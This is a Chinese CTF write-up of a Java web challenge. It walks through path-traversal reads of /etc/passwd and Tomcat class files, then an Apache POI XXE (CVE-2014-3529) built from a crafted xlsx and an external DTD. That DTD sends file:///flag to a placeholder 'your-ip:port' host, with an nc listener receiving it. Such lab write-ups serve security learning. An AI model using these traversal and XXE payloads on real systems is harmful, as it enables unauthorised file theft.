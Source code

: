 ```yaml
---
layout:     post             
title:      Flag{网鼎杯之java代码审计入门} - file-in-java
date:       2023-07-31           
author:     sule01u                  
head-img:   img/post-bg-keybord.jpg 
catalog: true                      
tags:      
   - ctf
---
```


# Flag{网鼎杯之java代码审计入门}

### 一、赛题截图

![image-20230730181311006](https://p.ipic.vip/5pzc0q.png)

### 二、接口测试

1. 我们先上传文件抓包，发送到repeter

   ![image-20230730181727635](https://p.ipic.vip/c7sbde.png)

   响应如下

   ![截屏2023-07-30 18.27.06](https://p.ipic.vip/j85vbz.png)

2. 我们使用下载接口去下载一个不存在的文件，回显“资源被删除”![image-20230730182626919](https://p.ipic.vip/xdifjt.png)

		- 说明系统可能去查找了这个文件，那我们能不能去下载/etc/passwd文件，但是还不知道相对路径是啥

### 三、任意文件读取漏洞验证

  - 那我们去测试一下下载文件夹

    ![image-20230731013406841](https://p.ipic.vip/bsem8n.png)

- 我们根据路径可以推测到/etc/passwd文件路径

  ```
  1. 上传文件的路径为
  /usr/local/tomcat/webapps/file_in_java/WEB-INF/upload/0/10/上传文件名
  
  2. 那/etc目录是跟/usr一层级的,上图有九层目录，应该回退九层
  /usr/local/tomcat/webapps/file_in_java/WEB-INF/upload/0/10/../../../../../../../../../etc/passwd
  
  3. 则我们下载文件的参数应该为
  ../../../../../../../../../etc/passwd
  ```

- 根据上面推理构造请求，成功获取/etc/passwd文件内容，yeah

  ![image-20230730184024947](https://p.ipic.vip/7zqvoh.png)

3. 拿到了/etc/passwd的文件内容有什么用，怎么才能getshell啊

   > 通过上面的一些测试，我们可以知道任意文件下载的漏洞存在该系统, 上传shell也无法执行
   >
   > 那我们只能看看能不能拿到源码审计看看了

- 通过暴露的上传文件存储的路径得知web服务器为tomcat

  `/usr/local/tomcat/webapps/file_in_java/WEB-INF/upload/0/10/`

- 前置知识

  Tomcat的web.xml是一个XML文件，**用于配置Web应用程序的部署信息和其他相关配置**。 它通常位于Web应用程序的WEB-INF目录下。 web.xml文件中包含了大量的配置信息，其中最重要的是Web应用程序的servlet、过滤器和监听器等组件的配置，是tomcat的核心配置文件。

- 读取web.xml文件，可以看到有三个接口类

  ![image-20230730193751174](https://p.ipic.vip/hqqsrw.png)

- 拿到接口class文件,根据tomca结构，我们知道class文件都在WEB-INF目录下

  构造路径`../../../../../../../../../../usr/local/tomcat/webapps/file_in_java/WEB-INF/classes/具体类路径`,成功获取文件内容

  ![image-20230730195933666](https://p.ipic.vip/8dnwpl.png)

- 浏览器通过下载三个类文件,如下图所示

  ![image-20230730200123970](https://p.ipic.vip/ca1jp9.png)

### 四、代码审计

> idea打开这几个class文件

- 查找flag关键词，文件名只要包含flag字符就会被ban

  ![image-20230730201346435](https://p.ipic.vip/2id3uz.png)

- 看看其他文件有没有能够下手的地方

  - ListFileServlet.class文件，只是返回保存的文件名作用，应该是通过上传接口完成之后调用的

    ![image-20230730201850058](https://p.ipic.vip/tokr5q.png)

  - 仅剩UploadServlet接口了，发现可疑的一段代码，里面提到了xlsx文件格式，好像做了不一样的处理

    ![image-20230730202234209](https://p.ipic.vip/p2wjah.png)我们让chatgpt给我们解释一下代码啥意思啊！

    > 首先说一句chatgpt真香啊
    >
    > 关注图片标红部分，说明我们要通过一个excel-xx.xlsx文件利用apache poi库搞事情

    ![image-20230730202533041](https://p.ipic.vip/pnou04.png)

### 五、Apache POI库漏洞利用

> Apache [POI](https://so.csdn.net/so/search?q=POI&spm=1001.2101.3001.7020) 简介是用Java编写的免费开源的跨平台的 Java API，Apache POI提供API给Java程式对Microsoft Office（Excel、WORD、PowerPoint、Visio等）格式档案读和写的功能

- 即然用到了POI库，那我们看看这个库是否有漏洞存在！代码中给出的POI库版本为3.10，是否有漏洞，google一下你就知道

  ```
  CVE-2014-3529       apache poi 在3.10.1之前存在XXE漏洞
  ```

- 复现CVE-2014-3529

  - 新建一个excel文件并解压（linux unzip命令即可解压 ‘.xlsx’ 文件）

    ```shell
    mkdir tmp_excel       //新建一个目录存放解压后的文件目录
    touch 1.xlsx           //新建一个excel文件
    unzip 1.xlsx  -d tmp_excel      //解压到指定目录
    cd tmp_excel                    //进入目录
    ls                              //查看解压后的文件
    ```

    解压后的效果如下图所示：

    ![截屏2023-07-30 21.36.45](https://p.ipic.vip/dglghv.png)

  - 在[Content_Types].xml文件中添加payload，(在第一句和第二句中间添加下面给出的payload)

  > **payload解释**
  >
  > 代码中的实体 `remote` 定义了一个外部实体，其系统标识符（System Identifier）为 "http://your-remote-ip/file.dtd"。然后，通过 `%remote;` 引用了这个实体，将其包含到当前XML文档中。然后通过该外部实体 `%int;` 和 `%send;` 执行一些操作

  ```xml-dtd
   <!DOCTYPE convert [
   <!ENTITY % remote SYSTEM "http://you-remote-ip/file.dtd">
   %remote;%int;%send;
   ]>
  ```

  效果如图所示

  ![截屏2023-07-30 21.23.33](https://p.ipic.vip/8mebez.png)

  - 打包回xlsx文件,根据前面的代码分析，文件名得为excel-x.xlsx

    ```
    zip excel-1.xlsx ./*
    ```

  - 去我们的远程服务器编辑一个file.dtd

    > payload解释
    >
    > 1. `%file` 定义了一个实体，通过 `file:///flag` 指定为一个文件路径。读取本地文件系统上的 `flag` 文件。
    > 2. `%int` 定义了另一个实体，通过 `http://your-ip:port?popko=%file;` 将读取到的文件内容发送给指定的IP地址和端口，我们通过nc在该ip所在服务器上监听这里指定的端口。
    >
    > 3. 目的是读取 `flag` 文件，并将其内容发送到指定的服务器上。

    ```dtd
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://your-ip:port?popko=%file;'>">
    ```

    远程服务器80端口启动http服务，使通过http://your-remote-ip/file.dtd能访问到file.dtd资源

  - nc监听端口，准备接受flag文件内容

    ```
    nc -lvvnp port        //port为你file.dtd里指定的端口
    ```

- 上传xlsx文件测试

  ![image-20230731013600470](https://p.ipic.vip/mcdzk7.png)

  http服务成功接收到file.dtd的请求

  ![image-20230730220550321](https://p.ipic.vip/6xgu9h.png)

  nc成功收到flag文件的内容

  ![image-20230730220348251](https://p.ipic.vip/hnmcmm.png)

### 六、总结

- 任意文件下载(读取)
- Apache POI XXE

> 脚踏实地的每天进步一点点，不跟别人相比，只超越自己就够了。
